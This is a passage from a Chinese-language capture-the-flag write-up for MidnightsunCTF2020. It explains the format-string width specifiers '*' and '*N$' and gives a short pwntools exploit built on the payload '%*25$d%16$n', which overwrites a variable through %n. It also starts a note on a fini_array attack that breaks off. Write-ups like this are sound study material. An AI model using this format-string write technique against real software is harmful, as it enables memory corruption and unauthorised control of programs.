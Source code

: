 #### 小结

* `*`如果单独使用，则**按顺序**取参数列表中的参数
* `*`如果配合`$`使用，则取参数列表中**相应位置**的参数，如`*1$`
* 取出的参数将格式化为**十进制数**，用作限制**字符串宽度**

#### 用途

* 缩短格式化字符串长度

------

回到题目，`%*25$d%16$n`可以把`v10`的值直接复制给`v8`

用`%n`可能会一次打印好多字符，不过多试几次，当`v10`很小的时候很快的打印完了

写exp时可以使用`pwntools`的`clean`函数接受数据

### exp

```python
fmt = "%*25$d%16$n"
sla('user: ',fmt)
#debug('b *0x08048a63')
sla('code: ','2333')

p.clean(10)
p.interactive()
```

> clean(10): **接受全部数据**并**清空缓冲区**，timeout为10秒

## pwn5 (176pt, unsolved)

arm

## pwn6 (135pt, unsolved)

### Description

> An homage to pwny.racing, we present... speedrun pwn challenges.
> These bite-sized challenges should serve as a nice warm-up for your pwning skills.

### Attachment

[pwn6](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MidnightsunCTF2020/pwn/pwn6/pwn6)

### Analysis

an warming up task of  `fini_array` attack. 64-bit ELF, statically linked and no PIE.

#### Overview

`main` function:
